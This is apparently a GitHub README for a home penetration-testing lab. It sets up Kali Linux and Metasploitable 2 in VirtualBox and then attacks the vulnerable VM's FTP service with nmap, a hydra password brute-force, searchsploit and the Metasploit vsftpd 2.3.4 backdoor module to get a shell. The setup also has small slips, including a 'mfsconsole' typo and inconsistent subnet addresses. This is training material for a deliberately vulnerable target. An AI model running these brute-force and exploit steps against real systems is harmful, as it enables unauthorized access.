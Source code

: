 # Hacking-Lab
Linux + Metasploitable 2: Exploits (FTP 21/22/23)
### Prerequisite

This setup assumes you have a general understanding of networks and basic linux commands. 

### Setup

1. Download Virtual Box.
2. Download Kali Linux. - extract files into folder
3. Download Metasploitable 2.- extract files into folder
4. VM setup: Kali
    1. In VirtualBox, add file. 
    2. Go to Settings, rename it. [HackingLab]
    3. In settings, select Network > NAT Network 10.200.0/24
    4. Select start and sign in. (Credentials can be found in the VM description page)
    5. Check VM connected to internet. [ifconfig + ping google.com] - stop ping CTRL + Shift + C
5. Install Pimp My Kali [optional but recommended] (~15-20 min)
    1. Google ‘pimpmykali github’
    2.  Scroll down to ‘Installation scripts’ and copy 
        
        git clone [https://github.com/Dewalt-arch/pimpmykali](https://github.com/Dewalt-arch/pimpmykali)
        
    3. Create folder Tools [mkdir Tools]
    4. Navigate to folder [cd Tools]
    5. Run [ ./pimpmykali.sh ]
    6. Type ‘N’ for New VM setup. 
        - As it goes through, it will ask about root and copying folders. Select Yes for all.
6. VM setup: Metaspoiltable 2
    1. In VirtualBox, add file/New. 
        1. Name: MS2 | Select Machine folder | Type: Linux | Version: Linux Other 64 bit
        2. Memory size: Default ok. > Next
        3. Hard disk: Use an existing virtual hard drive > Add Metasploitable.vmdk from extracted files > Create
        4. Connect it to network: Settings > Network > NAT Network > Select the same network as first VM.
        5. Start up the MS2 VM
    2. In Kali VM, open terminal and run netdiscover -r 10.0.200.0/24
    3. In Metasploitable VM, run ifconfig - compare the ip to the netdiscover list to confirm.
    
    
7. Setup users + passwords
    1. On Kali VM, run nmap -p- -sV -oN MS2.txt {IP of MS2 VM}
    
    Let nmap run and move to next steps.
    
    1. Create a users list.
        1. In new terminal tab : nano Users.txt
        2. Add users list to include: 
            
            msfadmin
            service
            user
            postgres
            
        3. Exit. Save. Confirm list created: ls
    2. Create a passwords list.
        1. In new terminal tab : nano Passwords.txt
        2. Add passwords list to include: 
            
            msfadmin
            service
            user
            postgres
            
        3. Exit. Save. Confirm list created: ls + cat

### It’s Exploit Time!

1. Exploit port 21 FTP
    1. Review MS2.txt - Notice the service (vsftpd 2.3.4) - it’s outdated and thus vulnerable for exploiting. 😈
    2. Utilize the user/password lists to gain access. 
        
        hydra -L Users.txt -P Passwords.txt {IP of MS2 VM} 
        
        This list will show the logins/passwords from your list that match.
        
    3. Login to MS2 -- sign in with user/password credentials
        
        ftp {IP of MS2 VM} 
        
    4. Confirm in MS2 directory 
        
        ls or ifconfig
        
    5. Exit out of MS2 vm: 
        
        bye
        
    6. Use searchsploit tool to see vulnerabilities associated with version (2 should appear).
        
        searchsploit vsftpd 2.3.4
        
    7. Enter into Metasploit framework. Search 
        
        mfsconsole > search vsftpd 2.3.4
        
    8. Use exploit shown and view options.
        
        use 0 
        
        show options
        
    9. Set the target host.
        
        set rhosts 10.0.200.7 > show options
        
    
    1-2-3… exploit … once you enter this, the terminal should now be MS2. 
    
    Confirm you are on MS2 : ifconfig + whoami
